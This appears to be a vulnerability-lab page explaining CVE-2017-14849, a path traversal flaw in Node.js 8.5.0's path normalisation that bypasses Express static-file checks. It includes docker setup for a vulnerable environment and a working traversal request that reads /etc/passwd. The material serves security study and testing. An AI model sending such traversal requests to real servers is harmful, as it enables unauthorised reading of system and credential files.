

Node.js 8.5.0 Path Traversal (CVE-2017-14849)¶
Node.js is a cross-platform, open-source JavaScript runtime environment. Node.js 8.5.0 before 8.6.0 allows remote attackers to access unintended files, because a change to ".." handling was incompatible with the pathname validation used by unspecified community modules.
The vulnerability exists due to a logic error in Node.js 8.5.0's normalize function when handling directory paths. When traversing up directories (e.g., ../../../../../../etc/passwd), adding foo/../ in the middle of the path (e.g., ../../../foo/../../../../etc/passwd) causes normalize to incorrectly return /etc/passwd, when the correct result should be ../../../../../../etc/passwd.
Web frameworks like Express typically provide static file server functionality that relies on the normalize function. For example, Express uses the normalize function to check if a path exceeds the static directory boundaries. The above bug causes the normalize function to return incorrect results, bypassing these checks and leading to arbitrary file read vulnerabilities.
While the normalize bug could potentially affect more than just Express and requires further investigation, its impact is limited since the bug was introduced in Node.js 8.5.0 and was fixed in version 8.6.
Reference links:
- https://nodejs.org/en/blog/vulnerability/september-2017-path-validation/
- https://security.tencent.com/index.php/blog/msg/121
Environment Setup¶
Run following commands to build and run a vulnerable application based on the Node.JS 8.5.0 and Express 4.15.5:
docker compose build
docker compose up -d
Visit http://your-ip:3000/ to see a web page that references the file /static/main.js, indicating the presence of a static file server.
Vulnerability Reproduce¶
Send the following request to read the passwd file:
GET /static/../../../a/../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
